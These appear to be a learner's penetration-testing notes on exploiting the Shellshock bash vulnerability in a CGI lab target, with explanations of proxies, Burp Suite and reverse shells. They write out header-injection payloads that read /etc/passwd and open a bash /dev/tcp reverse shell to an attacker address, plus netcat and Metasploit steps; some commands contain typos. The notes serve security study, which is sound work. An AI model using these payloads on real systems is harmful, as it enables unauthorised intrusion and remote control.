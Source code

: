 # Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)
#### Overview
`Shellshock`\
Is the name given to a family of vulnerabilities in the **Bash shell**
CGI 

Check if Apatch is running
```bash
nmap <IP>
```
Search IP address on browser and notice CGI command is working in the website in developer tool
Check if it's has vulnerabilities\
[--script=http-shellshock](https://github.com/itr-a/eJTP-Learning/blob/f35580191317792f0cee361f7e7910c405182f4d/Tools/Nmap.md#53)
```bash
# Specify link with 'uri'
nmap -sV <IP> --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```
Select BurpSuit on FoxyProxy
`BurpSuit`
Linux tool
Make sure **Intercept is on** in **Proxy** tab\
-> Click **Forward**\
Inject special characters in HTTP header
Send requests to Repeater by right click "Request" in Proxy tab
On **Repeater** tab,
-Remove user agent information
```bash
# Send this command
User Agent: () {:;}; echo; echo; bin/bash -c 'cat /etc/passwd'
```

reverseshell
Set up listener port (on terminal)
```bash
# nc -nvlp <listener port>
```
On Burp Suite
```bash
User Agent: () {:;}; echo; echo; bin/bash -c 'bash -i>&/dev/tcp/<attacker IP>/<listener port on attacker system> 0>&1'
```

Exploit with Metasploit
```bash
service postgresql start && msfonsole
```
```bash
search shellshock
```
-> Use exploit module
```bash
set RHOSTS
set TARGETURI <example: /gettime.cgi>
exploit
```
---
#### 📓 Note
`FoxyProxy`\
What is **Proxy**?\
A proxy server is like a **middleman between you and the internet**.\
Why use Proxy?
|Purpose|Explanation|
|---|---|
|Hide IP|Site sees the proxy's IP instead
|Bypass restrictions|Access content blocked in the region|
|Filter traffic|seful in companies or schools to block certain sites|
|Debug/Intercept|Tools like Burp Suit use proxy capture your browser traffic|


Example
- Want to visit most sites normally
- BUT want all traffic to a website to go through Burp Suit so can analyze requests


Proxy vs VPN
|Term|What is hides|Encryption|
|---|---|---|
|Proxy|Only browser/app traffic|No encryption(unless HTTPS)|
|VPN|All network traffic|usually encrypted|

Plugin that allows to automatically switch between proxies -> click BurpSuit
-> All traffic will be redirected to the BurpSuit

`Burp Suit`\
An intercepting proxy tool that let you analyze, manipulate and reply web traffic.\
Used in **bug bounty**, CTFs and real-world pentesting.\
What you can do with Burp Suite
|Feature|Purpose|
|---|---|
|Proxy| Intercept/modify browser ↔ server traffic|
|Repeater|Manual request editing & replay|
|Intruder|Brute-force/fuzzing|
|Scanner|Auto find vulns|
|Decoder|Encode/decode data|
|Extensions|Add custom scripts/tools|
<br>
<br>

`reverse shell`\
A reverse shell is when the *target system* connects back to *you* and
gives you **remote command-line access**.
```bash
Attacker (YOU: 10.0.0.1)               Victim (10.0.0.22)
┌────────────────────┐                ┌────────────────────────┐
│ nc -lvnp 4444      │ <──── Connect ─┤ bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
│ (listening shell)  │                │  (reverse shell script)│
└────────────────────┘                └────────────────────────┘
```
#39\
```bash
# <'listen port'> -> 'bash -i>&/dev/tcp/<target IP></listening port> 0>&1'
```
|Part|What it means|
|---|---|
|`bash`|Call **Bash Shell**|
|`-i`|Runs it in **interactive mode**<br>You can type commands and get resposes
|`>&`|Redirect **stdout(1)**and **stderr(2)** to a new location
|`/dev/tcp/<IP>/<listening port>`|A **special file** in Bash that lets you open a TCP connection to an IP and port.
|`0>&1`|Redirects **stdin(0)** to the same place as **stdout**<br>-> Everything flows through the same TCP socket
